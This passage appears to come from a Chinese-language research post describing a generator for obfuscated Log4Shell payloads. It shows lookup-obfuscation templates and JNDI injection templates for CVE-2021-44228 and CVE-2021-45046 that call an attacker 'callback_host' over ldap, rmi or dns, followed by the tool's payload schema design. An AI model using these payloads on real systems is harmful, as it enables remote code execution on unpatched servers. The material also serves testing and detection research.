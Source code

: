 ```
${{{e_lookup}}{{v_lookup}}{{e_lookup}}{{n_lookup}}{{t_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{l_lookup}}{{o_lookup}}{{g_lookup}}{{4_lookup}}{{j_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{m_lookup}}{{a_lookup}}{{r_lookup}}{{k_lookup}}{{e_lookup}}{{r_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{s_lookup}}{{p_lookup}}{{r_lookup}}{{i_lookup}}{{n_lookup}}{{g_lookup}}:{{random_variable}}:-{{uppercase}}}
${{{u_lookup}}{{p_lookup}}{{p_lookup}}{{e_lookup}}{{r_lookup}}:{{uppercase}}}
${{{u_lookup}}{{p_lookup}}{{p_lookup}}{{e_lookup}}{{r_lookup}}:{{lowercase}}}
${:-{{uppercase}}}
${{{random_lookup}}:{{random_variable}}:-{{uppercase}}}
```
下面是CVE-2021-44228和CVE-2021-45046 payloads的模板：
```
# CVE-2021-44228 payloads template
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{l_proto}}{{d_proto}}{{a_proto}}{{p_proto}}{{colon}}//{{callback_host}}/{{random}}}
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{l_proto}}{{d_proto}}{{a_proto}}{{p_proto}}{{colon}}//{{callback_host}}}
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{r_proto}}{{m_proto}}{{i_proto}}{{colon}}//{{callback_host}}/{{random}}}
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{d_proto}}{{n_proto}}{{s_proto}}{{colon}}//{{callback_host}}/{{random}}}
```
```
# CVE-2021-45046 payloads template
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{l_proto}}{{d_proto}}{{a_proto}}{{p_proto}}{{colon}}//127.0.0.1#{{callback_host}}:1389/{{random}}}
${{{j_lookup}}{{n_lookup}}{{d_lookup}}{{i_lookup}}{{colon}}{{l_proto}}{{d_proto}}{{a_proto}}{{p_proto}}{{colon}}//127.0.0.1#{{callback_host}}/{{random}}}
```
模板中出现的占位符将分别用于替换ldap、rmi、dns协议字段部分，冒号，恶意服务器的地址和随机字符串。

## 数据结构设计
下面是数据本项目的结构设计：

payload的模式schema由三个部分part组成，它们分别是lookups部分，proto部分和delititer部分。其中lookups部分有jndi前缀，proto部分有rmi，dns和ldap前缀。delimiter部分有colon_component前缀。schema看起来像是一个树状结构。

![schema的树状结构](/img/in-post/research/schema结构.jpg)

